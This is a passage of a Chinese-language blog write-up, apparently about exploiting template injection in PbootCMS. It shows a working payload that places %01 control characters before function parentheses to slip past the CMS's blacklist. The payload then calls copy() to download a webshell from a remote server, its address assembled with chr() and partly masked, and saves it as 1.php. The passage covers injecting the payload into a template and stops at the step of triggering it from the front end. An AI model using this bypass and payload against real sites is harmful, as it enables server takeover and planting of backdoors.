 ![image](img/7134f29cf2f418c21e18d59956e07e40.png)

看到后我才想起，以前就看过P师傅的一篇文章里面的一个trick：在一个函数的括号前面加入一些控制字符，PHP一样能识别改函数并执行。利用这个trick就可以执行任意函数了。

于是根据P师傅给的思路再结合程序本身的一些其他的黑名单限制，很快我就构造出了一个通用的Payload

```
{pboot%3aif(copy%01(chr%01(104).chr%01(116).chr%01(116).(马赛克),chr%01(49).chr%01(46).chr%01(112).chr%01(104).chr%01(112)))}asdasdasd{/pboot%3aif} 
```

利用一个`copy()`函数到远程服务器上下载一个webshell放在本地，这里的webshell地址通过`chr()`函数一个个还原出shell地址一个个拼接。

向模板注入该payload：

![image](img/9aab389b45f5d1074732bf6047891f83.png)

访问前台触发点：
